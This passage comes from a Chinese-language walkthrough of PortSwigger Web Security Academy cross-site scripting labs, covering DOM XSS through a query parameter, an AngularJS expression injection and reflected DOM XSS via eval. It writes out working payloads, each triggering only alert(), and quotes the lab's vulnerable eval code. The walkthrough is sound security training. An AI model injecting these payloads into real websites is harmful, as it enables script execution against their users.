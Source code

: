 payload


```js
encodeURIComponent(`"></select><img src='x' onerror='alert(1)'>`);
```

encode 以後注入到 querystring 的 storeId


```
?productId=2&storeId=%22%3E%3C%2Fselect%3E%3Cimg%20src%3D'x'%20onerror%3D'alert(1)'%3E
```

## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

| Dimension | Description                                                                                  |
| --------- | -------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-angularjs     |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression |

AngularJS 也是我不熟悉的領域 QQ，但我忘記以前在哪裡看過可以注入，成功～


```js
{{ constructor.constructor('alert("XSS")')() }}
```

## Lab: Reflected DOM XSS

| Dimension | Description                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected                           |

先觀察網站的 js，主要的注入點應該是 `eval`


```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        eval('var searchResultsObj = ' + this.responseText);
        displaySearchResults(searchResultsObj);
    }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

試著輸入 `"`，API 回傳的是 `{"results":[],"searchTerm":"\""}`，最終嘗試


```
\"};alert(1);//
```
